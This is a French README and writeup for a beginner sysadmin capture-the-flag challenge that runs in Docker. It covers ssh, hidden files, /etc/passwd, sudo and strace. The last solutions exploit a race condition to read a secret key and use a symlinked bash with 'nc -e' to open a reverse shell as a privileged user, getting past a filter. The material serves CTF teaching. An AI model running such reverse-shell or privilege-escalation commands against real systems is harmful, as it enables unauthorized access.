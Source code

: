 # Sysadmin-101

> sysadmin

Author: Vincent Laferrière

Une introduction au différentes commandes linux pour tout bon sysadmin débutant

## Setup

Requirements:

-   docker
-   docker-compose

Start:

```bash
docker-compose up
```

## Writeup

### FLAG0

#### Description

Tout bon futur sysadmin doit pouvoir utiliser la commande ssh pour gérer des systèmes à distance.
Ta première tâche sera de te connecter à la machine [HOST]:[PORT] avec l'utilisateur `flag0` et le mot de passe `unitedctf`.

#### Solution

Il suffit d'entrer la commande suivante et de taper le bon mot de passe:

```bash
ssh flag0@[HOST] -p [PORT]
```

### FLAG1

#### Description

C'est bien d'utiliser un mot de passe, mais utiliser une clé privée, c'est encore mieux!
Connecte-toi à la même machine avec l'utilisateur `flag1` et la clé fournie au dernier challenge.

#### Solution

Il faut utiliser la clé privée donnée par le dernier challenge

```bash
# Ne pas oublier d'avoir les bonnes permissions sur la clé privée
chmod 600 flag1.pem
ssh -i flag1.pem flag1@[HOST] -p [PORT]
```

### FLAG2

#### Description

Ce flag se trouve dans l'un des fichiers exécuté par bash pour configurer l'environment.

#### Solution

Le flag est caché à la fin du fichier `~/.bashrc`

### FLAG3

#### Description

Ce flag se trouve dans l'un des fichiers les plus visé par les LFI et les path traversals. Il contient les informations de tous les utilisateurs.

#### Solution

Le flag est caché dans la description de l'utilisateur dans le fichier `/etc/passwd`

### FLAG4

#### Description

Ce flag se trouve dans votre dossier d'utilisateur, caché à la vue de tous.

#### Solution

Le flag est caché dans le fichier caché `~/.flag`

### FLAG5

#### Description

Par défaut, ubuntu utilise un umask de 002 ce qui n'est pas très "secret".

#### Solution

Le flag est simplement dans le fichier nommé `secret` dans le dossier du second utilisateur

### FLAG6

#### Description

Quand il y a trop de fichiers il faut absolument globally search for a regular expression and print matching pour éviter de devenir fou.

#### Solution

Le flag est dans l'un des fichiers de code source

```bash
grep -R FLAG- .
```

### FLAG7

#### Description

Parfois, il être capable d'impersonifier d'autres utilisateurs pour exécuter d'autres commandes sans compromettre la sécurité une machine.

#### Solution

Le flag se trouve dans le dossier d'un autre utilisateur et il faut utiliser sudo pour y avoir accès

```bash
sudo -u superuser /home/superuser/secret.sh
```

### FLAG8

#### Description

Certaines commandes administratives peuvent être très utiles pour déboguer et observer le comportement d'un programme.

#### Solution

Le flag est envoyé chaque seconde au binaire `/keyrecv`. Il est possible de le récupérer en utilisant la commande `strace`

```bash
# Le PID va changer, mais il devrait être proche de 9
strace -p <PID de /keyrecv>
```

### FLAG9

#### Description

L'utilisation de openssl avec pbkdf2 et tout plein d'itérations rend le flag impossible a cracker.

#### Solution

Le script `/home/secretuser/rotatekeys.sh` contient une race condition où la commande openssl prend un peu trop de temps et la clé secrète est exposée.

```bash
sudo -u secretuser /home/secretuser/rotatekeys.sh & # mettre en arrière plan
cat /tmp/secret > secret
openssl enc -aes-256-cbc -d -pbkdf2 -iter 100000 -salt -md sha512 -pass file:secret -in /home/secretuser/flag.enc -out -
```

### FLAG10

#### Description

Un script exécute tout ce qu'on lui passe en paramètre avec des droits d'adminstrateur, mais il y a un filtre par dessus. Seras-tu capable de passer par dessus?

#### Solution

Une solution parmis plusieurs?

```bash
ln -s /bin/bash z || true &&
    sudo -u superuser \
        /elevate.sh nc -e z <IP> <PORT>
```
